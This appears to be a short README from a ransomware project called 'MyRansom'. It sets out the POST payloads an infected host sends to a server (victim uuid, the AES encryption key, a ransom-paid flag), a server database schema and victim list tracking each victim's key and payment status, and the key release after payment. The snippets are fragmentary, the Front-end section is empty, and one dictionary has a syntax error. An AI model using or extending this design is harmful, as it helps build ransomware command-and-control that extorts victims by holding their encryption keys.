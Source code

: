 # Args of MyRansom

## infected host

### init

```python
post_data = {
    'id': uuid.uuid1().hex
}
```

### aes key

```python
self.aes_key = self.enc_key()
post_data = {
    'id': self.id,
    'aes_key': self.aes_key
}
```

### paid

```python
post_data = {
    'id': self.id,
    'aes_key': self.aes_key,
    'ransom': True
}
```

## Server

### database

```sql
    ID         VARCHAR(32)    NOT NULL,
    INFTIME    VARCHAR(100)    NOT NULL,
    RANSOM     BOOLEAN         NOT NULL,
    AESKEY     VARCHAR(100)    NOT NULL
```

### viclist

```python
viclist = [
    {
        'id': victim_id,
        'inf_time': time.time()
        'ransom': False,
        'AES_key': aes_key
    }
]
```

### paid

```python
aes_key = dec_key()
post_data = {
    'id': victim_id,
    'aes_key': aes_key
}
```

## Front-end

